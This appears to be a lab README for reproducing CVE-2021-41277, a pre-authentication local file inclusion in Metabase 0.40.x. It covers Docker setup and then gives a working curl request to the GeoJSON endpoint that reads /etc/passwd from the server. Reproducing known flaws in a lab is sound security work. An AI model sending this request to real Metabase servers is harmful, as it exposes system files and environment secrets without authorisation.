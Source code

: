 # Metabase Pre-Auth Local File Inclusion (CVE-2021-41277)

[中文版本(Chinese version)](README.zh-cn.md)

Metabase is an open source data analytics platform. In affected versions (x.40.0-x.40.4) a security issue has been discovered with the custom GeoJSON map (`admin->settings->maps->custom maps->add a map`) support, unauthenticated attackers can use this vulnerability to read local file (including environment variables).

References:

- <https://github.com/metabase/metabase/security/advisories/GHSA-w73v-6p7p-fpfr>
- <https://github.com/tahtaciburak/CVE-2021-41277>

## Environment Setup

Execute following command to start a Metabase server 0.40.4:

```
docker-compose up -d
```

After the server is started, you can browse the `http://your-ip:3000` to see the installation instructions like that:

![](1.png)

Fill in your information, and skip the data source form.

## Vulnerability Reproduce

Simplely use the CURL to exploit this flaw:

```
curl -v http://your-ip:3000/api/geojson?url=file:////etc/passwd
```

As you can see, `/etc/passwd` has been exposed successfully.

![](2.png)
